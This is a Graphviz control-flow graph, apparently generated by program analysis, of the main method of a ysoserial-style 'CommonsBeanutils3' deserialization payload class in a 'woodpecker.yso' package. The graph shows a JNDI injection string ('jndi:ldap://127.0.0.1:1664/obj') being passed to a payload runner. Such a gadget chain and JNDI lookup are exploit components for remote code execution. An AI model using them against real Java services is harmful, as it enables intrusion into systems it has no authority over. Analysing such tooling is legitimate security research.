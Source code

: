 digraph "unitGraph" {
    "r1 := @parameter0: java.lang.String[]"
    "$r0 = newarray (java.lang.String)[1]"
    "$r0[0] = \"jndi:ldap://127.0.0.1:1664/obj\""
    "r2 = $r0"
    "staticinvoke <me.gv7.woodpecker.yso.payloads.util.PayloadRunner: void run(java.lang.Class,java.lang.String[])>(class \"Lme/gv7/woodpecker/yso/payloads/CommonsBeanutils3;\", r2)"
    "return"
    "r1 := @parameter0: java.lang.String[]"->"$r0 = newarray (java.lang.String)[1]";
    "$r0 = newarray (java.lang.String)[1]"->"$r0[0] = \"jndi:ldap://127.0.0.1:1664/obj\"";
    "$r0[0] = \"jndi:ldap://127.0.0.1:1664/obj\""->"r2 = $r0";
    "r2 = $r0"->"staticinvoke <me.gv7.woodpecker.yso.payloads.util.PayloadRunner: void run(java.lang.Class,java.lang.String[])>(class \"Lme/gv7/woodpecker/yso/payloads/CommonsBeanutils3;\", r2)";
    "staticinvoke <me.gv7.woodpecker.yso.payloads.util.PayloadRunner: void run(java.lang.Class,java.lang.String[])>(class \"Lme/gv7/woodpecker/yso/payloads/CommonsBeanutils3;\", r2)"->"return";
}
